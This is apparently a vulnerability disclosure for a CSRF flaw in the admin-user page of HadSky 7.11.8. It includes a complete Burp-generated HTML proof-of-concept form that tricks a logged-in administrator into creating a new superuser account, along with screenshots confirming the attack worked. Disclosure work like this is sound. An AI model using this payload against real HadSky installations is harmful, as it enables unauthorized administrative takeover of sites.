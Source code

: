 hadsky version 7.11.8 has a CSRF vulnerability

official website:https://www.hadsky.com/

version : 7.11.8

The added administrator page is not protected by csrftoken. As a result, administrators can be tricked into adding administrator users.

POC
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.hadskynew.com/index.php?c=app&a=superadmin:index&s=save&table=user&id=&chkcsrfval=5f88ffcbe2462c792adcb56ddbe0e671&json=yes" method="POST">
      <input type="hidden" name="&#95;webos" value="HadSky" />
      <input type="hidden" name="chkcsrfval" value="5f88ffcbe2462c792adcb56ddbe0e671" />
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="username" value="admin12" />
      <input type="hidden" name="password" value="admin1" />
      <input type="hidden" name="nickname" value="admin12" />
      <input type="hidden" name="email" value="12312321&#64;qq&#46;com" />
      <input type="hidden" name="quanxian" value="bbcode&#44;login&#44;lookuser&#44;postreply&#44;uploadfile&#44;uploadhead&#44;search&#44;postread&#44;lookread&#44;download&#44;delread&#44;editread&#44;nopostreadcheck&#44;noverifycode&#44;admin&#44;htmlcode&#44;delreply&#44;editreply&#44;nopostreplycheck&#44;nopostingtimeinterval&#44;superman" />
      <input type="hidden" name="readlevel" value="0" />
      <input type="hidden" name="jifen" value="0" />
      <input type="hidden" name="tiandou" value="0" />
      <input type="hidden" name="data&#45;htmlcodemarks" value="" />
      <input type="hidden" name="data&#45;htmlcodeattrs" value="" />
      <input type="hidden" name="data&#45;signcodemarks" value="" />
      <input type="hidden" name="data&#45;signcodeattrs" value="" />
      <input type="hidden" name="data&#45;uploadsize" value="100" />
      <input type="hidden" name="data&#45;dayuploadfilesize" value="100" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

After the administrator logs in, click the page to add an administrator user

![微信图片_20230709232002](https://github.com/nightcloudos/cve/assets/76925342/24f5340c-48cf-4d61-be3b-ced029e35805)

![微信图片_20230709232033](https://github.com/nightcloudos/cve/assets/76925342/900d8c62-b3e7-4a3e-9943-44cd230d7ede)

Go back to the background and check that the admin123 user was successfully added
![微信图片_20230709232110](https://github.com/nightcloudos/cve/assets/76925342/b3809b85-5620-4520-8a9f-93445319d24b)

